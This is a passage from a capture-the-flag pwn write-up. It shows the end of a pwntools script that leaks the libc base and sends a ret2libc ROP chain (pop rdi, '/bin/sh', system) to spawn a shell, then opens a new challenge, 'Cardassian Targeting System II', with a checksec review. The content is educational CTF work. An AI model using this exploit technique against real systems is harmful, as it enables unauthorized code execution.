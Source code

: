```python

print(f'puts_offset @ {hex(puts_offset)}')
print(f'libc base @ {hex(libc.address)}')
print(f'system @ {hex(system_addr)}')

pop_rdi = libc.address + 0x000000000002a3e5

binsh = p64(next(libc.search(b'/bin/sh\x00')))
print(f'binsh @ {hex(u64(binsh))}')

ret = 0x0000000000401016

p.sendline(b'1')
p.sendline(b'1')
payload = flat([
 	offset * 'a',
 	pop_rdi,
 	binsh,
	ret,
 	system_addr
 ])
p.sendline(payload)

p.interactive()
```

# "Cardassian Targeting System II" | Category: Pwn
From the author we get an executable and a `libc-2.31.so` libc library to work with. The first thing to do would be to run `checksec` on the program and see what protections are in place. 

![](cardII-checksec.png)

Welp, full protections. This means no overwriting the GOT, we'd have to bypass the canary for a buffer overflow, no shellcode off the stack, and all memory addresses are random. Let's hope the nature of the program will help us bypass some of these protections. 

When running the program, an opportunity to enter our name and then we are presented with a menu. 
